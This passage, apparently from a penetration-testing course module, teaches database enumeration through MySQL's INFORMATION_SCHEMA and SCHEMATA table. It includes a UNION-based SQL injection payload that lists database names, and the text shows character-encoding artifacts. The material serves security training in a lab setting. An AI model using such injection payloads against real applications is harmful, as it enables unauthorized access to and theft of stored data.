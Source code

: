 TheÂ [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html)Â database contains metadata about the databases and tables present on the server. This database plays a crucial role while exploiting SQL injection vulnerabilities. As this is a different database, we cannot call its tables directly with aÂ `SELECT`Â statement. If we only specify a table's name for aÂ `SELECT`Â statement, it will look for tables within the same database.

So, to reference a table present in another DB, we can use the dot â€˜`.`â€™ operator. For example, toÂ `SELECT`Â a tableÂ `users`Â present in a database namedÂ `my_database`, we can use:

```sql
SELECT * FROM my_database.users;
```

Similarly, we can look at tables present in theÂ `INFORMATION_SCHEMA`Â Database.

---

## SCHEMATA

To start our enumeration, we should find what databases are available on the DBMS. The tableÂ [SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)Â in theÂ `INFORMATION_SCHEMA`Â database contains information about all databases on the server. It is used to obtain database names so we can then query them. TheÂ `SCHEMA_NAME`Â column contains all the database names currently present.

Let us first test this on a local database to see how the query is used:

```shell-session
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

We see theÂ `ilfreight`Â andÂ `dev`Â databases.

Note: The first three databases are default MySQL databases and are present on any server, so we usually ignore them during DB enumeration. Sometimes there's a fourth 'sys' DB as well.

Now, let's do the same using aÂ `UNION`Â SQL injection, with the following payload:

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/ports_dbs.png)

